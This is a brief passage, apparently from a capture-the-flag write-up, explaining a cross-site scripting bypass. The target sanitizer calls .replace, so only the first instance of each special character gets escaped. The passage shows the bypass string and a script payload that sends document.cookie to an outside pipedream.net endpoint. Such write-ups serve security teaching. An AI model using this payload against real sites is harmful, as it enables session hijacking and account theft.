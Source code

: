 ```jsx
// no pesky chars allowed
const name = req.body.name
    .replace("&", "&amp;")
    .replace('"', "&quot;")
    .replace("'", "&apos;")
    .replace("<", "&lt;")
    .replace(">", "&gt;");
```

`&"'<><script>alert(1)</script>`

![Untitled](writeup_media/Untitled%203.png)

```html
&"'<>
<script>
document.location='https://eoor1c6mm76wo38.m.pipedream.net/?'+document.cookie
</script>
```

![Untitled](writeup_media/Untitled%204.png)
